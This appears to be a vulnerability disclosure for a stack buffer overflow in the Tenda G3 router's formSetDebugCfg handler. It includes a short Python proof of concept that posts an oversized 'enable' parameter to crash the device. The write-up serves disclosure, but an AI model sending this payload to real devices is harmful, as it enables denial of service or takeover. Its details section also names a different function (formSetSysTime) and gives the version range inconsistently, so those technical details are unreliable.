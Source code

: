 # Tenda G3 formSetDebugCfg
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formSetDebugCfg function.
### Vulnerability details
Stack-based buffer overflow in function formSetSysTime on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetSysTime line 57, it reads in 3 user-provided parameters, and the variable enable, level, module are passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetDebugCfg-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setDebugCfg'
payload = {
    "enable": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
